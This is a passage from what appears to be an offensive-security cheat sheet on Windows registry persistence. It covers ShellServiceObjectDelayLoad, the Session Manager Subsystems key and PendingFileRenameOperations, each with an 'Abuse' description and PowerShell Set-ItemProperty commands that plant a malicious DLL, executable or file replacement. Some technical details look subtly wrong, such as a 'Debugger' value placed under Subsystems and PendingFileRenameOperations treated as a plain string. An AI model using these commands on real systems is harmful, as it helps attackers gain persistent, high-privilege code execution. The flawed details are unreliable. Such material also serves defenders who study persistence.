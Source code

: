 #### ShellServiceObjectDelayLoad (DLL Hijacking)
   - Registry Path:
     - `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad`
   - Purpose: Specifies DLLs to be loaded during the initialization of the shell.
   - Abuse: By adding a malicious DLL, an attacker can execute code at system startup with elevated privileges.

   PowerShell Example to Check Value:
   ```powershell
   Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad"
   ```

   PowerShell Example to Add Malicious DLL:
   ```powershell
   Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad" -Name "MaliciousDLL" -Value "C:\path\to\malicious.dll"
   ```

#### Session Manager Subsystems (Subsystem Hijacking)
   - Registry Path:
     - `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Subsystems`
   - Purpose: Configures the subsystems that Windows loads during the startup process.
   - Abuse: By modifying the `Debugger` value, an attacker can replace legitimate subsystems with a malicious binary or command that runs with SYSTEM privileges.

   PowerShell Example to Check Value:
   ```powershell
   Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Subsystems"
   ```

   PowerShell Example to Add Malicious Entry:
   ```powershell
   Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Subsystems" -Name "Debugger" -Value "C:\path\to\malicious.exe"
   ```

#### PendingFileRenameOperations (Modify Pending File Operations)
   - Registry Path:
     - `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\PendingFileRenameOperations`
   - Purpose: Specifies files to be renamed or deleted during the next system reboot.
   - Abuse: If this key is writable, an attacker can add file operations that execute at system reboot, including replacing critical system files.

   PowerShell Example to Check Pending Operations:
   ```powershell
   Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "PendingFileRenameOperations"
   ```

   PowerShell Example to Modify Pending Operations:
   ```powershell
   Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "PendingFileRenameOperations" -Value "C:\path\to\replacefile.exe"
   ```
